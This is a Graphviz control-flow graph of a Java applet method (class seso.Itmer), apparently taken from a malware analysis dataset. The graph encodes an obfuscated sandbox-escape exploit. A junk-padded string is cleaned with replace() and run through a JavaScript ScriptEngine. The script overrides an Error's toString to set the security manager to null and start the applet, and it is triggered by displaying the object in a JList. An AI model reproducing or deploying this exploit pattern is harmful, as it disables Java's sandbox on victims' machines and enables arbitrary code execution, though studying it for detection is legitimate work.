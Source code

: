 digraph "" {
    "r0 := @this: seso.Itmer"
    "load.r r0"
    "r0 := @this: seso.Itmer"->"load.r r0";
    "push 1"
    "load.r r0"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "store.r $r8"
    "newarray"->"store.r $r8";
    "load.r $r8"
    "store.r $r8"->"load.r $r8";
    "push 0"
    "load.r $r8"->"push 0";
    "new javax.script.ScriptEngineManager"
    "push 0"->"new javax.script.ScriptEngineManager";
    "dup1.r"
    "new javax.script.ScriptEngineManager"->"dup1.r";
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"
    "dup1.r"->"specialinvoke <javax.script.ScriptEngineManager: void <init>()>";
    "push \"jabcs\""
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"->"push \"jabcs\"";
    "push \"abc\""
    "push \"jabcs\""->"push \"abc\"";
    "push \"\""
    "push \"abc\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"->"dup1.r";
    "push \"va2mar erra2mor = na2mew Erra2mor(\\\"Ma2my erra2mor\\\");tha2mis.toSta2mring = functa2mion(){ jaa2mva.laa2mng.Systa2mem.sa2metSecua2mrityMa2managa2mer(nula2ml);apa2mplea2mt.sta2mart();rea2mturn \\\"ea2mxploa2mit!\\\";};a2mera2mror.mesa2msage = tha2mis;\""
    "dup1.r"->"push \"va2mar erra2mor = na2mew Erra2mor(\\\"Ma2my erra2mor\\\");tha2mis.toSta2mring = functa2mion(){ jaa2mva.laa2mng.Systa2mem.sa2metSecua2mrityMa2managa2mer(nula2ml);apa2mplea2mt.sta2mart();rea2mturn \\\"ea2mxploa2mit!\\\";};a2mera2mror.mesa2msage = tha2mis;\"";
    "push \"a2m\""
    "push \"va2mar erra2mor = na2mew Erra2mor(\\\"Ma2my erra2mor\\\");tha2mis.toSta2mring = functa2mion(){ jaa2mva.laa2mng.Systa2mem.sa2metSecua2mrityMa2managa2mer(nula2ml);apa2mplea2mt.sta2mart();rea2mturn \\\"ea2mxploa2mit!\\\";};a2mera2mror.mesa2msage = tha2mis;\""->"push \"a2m\"";
    "push \"a2m\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1";
    "pop"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"->"pop";
    "push \"error\""
    "pop"->"push \"error\"";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"
    "push \"error\""->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1";
    "arraywrite.r"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"->"arraywrite.r";
    "new javax.swing.JList"
    "arraywrite.r"->"new javax.swing.JList";
    "new javax.swing.JList"->"dup1.r";
    "dup1.r"->"load.r $r8";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"
    "load.r $r8"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "fieldput <seso.Itmer: javax.swing.JList mersedes>"
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"fieldput <seso.Itmer: javax.swing.JList mersedes>";
    "fieldput <seso.Itmer: javax.swing.JList mersedes>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <seso.Itmer: javax.swing.JList mersedes>"
    "load.r r0"->"fieldget <seso.Itmer: javax.swing.JList mersedes>";
    "virtualinvoke <seso.Itmer: java.awt.Component add(java.awt.Component)>"
    "fieldget <seso.Itmer: javax.swing.JList mersedes>"->"virtualinvoke <seso.Itmer: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <seso.Itmer: java.awt.Component add(java.awt.Component)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "store.r r0"
    "virtualinvoke <seso.Itmer: java.awt.Component add(java.awt.Component)>"->"store.r r0";
}
